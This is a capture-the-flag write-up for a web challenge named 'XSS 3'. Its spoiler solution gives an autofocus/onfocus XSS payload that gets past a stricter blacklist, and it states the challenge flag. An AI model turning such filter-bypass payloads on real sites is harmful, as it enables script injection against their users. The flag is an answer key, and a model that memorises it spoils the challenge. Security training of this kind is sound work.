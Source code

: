 # XSS 3

## Authors

- Daniel Cooper

## Category

- web

## Description

Did you cheese the last one? I've patched it.

[https://xss3.ctf.secso.cc/](https://xss3.ctf.secso.cc/)

Author: @ssparrow

## Hints

## Files

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Bypass a stricter blacklist.

### Walkthrough

This time we can use the following payload to get XSS:

```
<input onfocus=alert(1) autofocus>
```

Note: you will need to reload the page to get this to work

### Flag

`SPOOKTF{st0p_bypass1ng_my_protection5!!}`

</details>
